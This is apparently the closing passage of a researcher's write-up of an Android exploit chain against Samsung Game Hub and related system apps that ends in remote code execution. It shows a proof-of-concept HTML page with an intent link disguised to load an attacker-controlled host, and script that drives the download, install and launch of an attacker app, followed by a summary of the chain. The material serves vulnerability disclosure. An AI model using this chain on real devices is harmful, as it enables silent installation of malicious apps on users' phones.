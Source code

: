 ```
 <h1>
  <a
     href="intent://com.samsung.android.game.gamehome/gmp?url=https%3A%2F%2Fus.mcsvc.samsung.com%40attacker.zerodoridlabs.com%2F%3Flocation%3Dlaunch#Intent;scheme=gamelauncher;action=android.intent.action.VIEW;component=com.samsung.android.game.gamehome/com.samsung.android.game.gamehome.app.MainActivity;end">
    Start
  </a>
</h1>

<script>
const STEP = 15000;                       // 15s
const qs   = new URLSearchParams(location.search);
const host = qs.get('attacker') || location.host;
const base = (host.includes('://') ? '' : location.protocol + '//') + host;

function go(p){ location.href = base + p; }

document.getElementById('start').addEventListener('click', () => {
  setTimeout(() => go('/download'), 2000);        // after 2s
  setTimeout(() => go('/install'),  2000+STEP);   // +15s
  setTimeout(() => go('/launch'),   2000+STEP*2); // +15s
}, { once:true });

</script>

```

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*Vay_hhFRshRXBdrAPRxVLg.png)

Summary
-------

*   User Click on Start
*   Game Hub will be open WebView with JavaScript
*   Game Hub will open quick share with Download code and download Attacker Application
*   Quick share Agent will copy it to `GPUWatch_dump/html`
*   Smart Switch will take `ssm_uri` from GPUWatch content provider to install Attacker Application
*   Game Hub will Launch Attacker Application → RCE

I did all what I have, so sorry if i miss something or something is not clear, but if you have any question you can reach me at [LinkedIn](https://www.linkedin.com/in/msadek-hj/) and I’ll do my best to asset you. Also, don’t forget to watch [Ken](https://www.linkedin.com/in/yogehi)’s talk “[**Chainspotting 2**](https://www.youtube.com/watch?v=LAIr2laU-So)” it’s the best for me. and there another one with same title “[**ChainSpotting**](https://www.youtube.com/watch?v=sh9G9vlUGow)**”** from few years ago.

![](https://miro.medium.com/v2/resize:fit:330/0*gozDqoi4sXdssLEy.gif)

> **ٱلسَّلَامُ عَلَيْكُمْ وَرَحْمَةُ ٱللهِ وَبَرَكَاتُهُ**